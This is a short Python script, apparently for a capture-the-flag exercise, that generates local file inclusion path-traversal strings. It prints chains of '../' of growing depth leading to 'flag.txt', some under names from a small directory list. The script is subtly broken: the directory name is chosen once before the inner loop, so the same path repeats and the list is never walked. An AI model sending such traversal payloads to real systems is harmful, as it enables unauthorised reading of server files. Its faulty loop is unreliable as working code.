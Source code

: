 # LFI-per


#python
dot = ""
dic = ["home", "hola", "dsdas", "prova", "dsakdsads", "dsadadasdsa", "1", "8"]

num = 0
#per que faci fins al final de la llista
num1 = (len(dic)) - 1



for i in range(10):
    num = 0
    dots = ""
    dot = dot + "../"
    dic1 = dic[num]
    dots = dot + str(dic1) + "/flag.txt"
    flag = dot + "flag.txt"  
    print (flag)
    
    while num <=num1:
        
        print (dots)
        num = num + 1
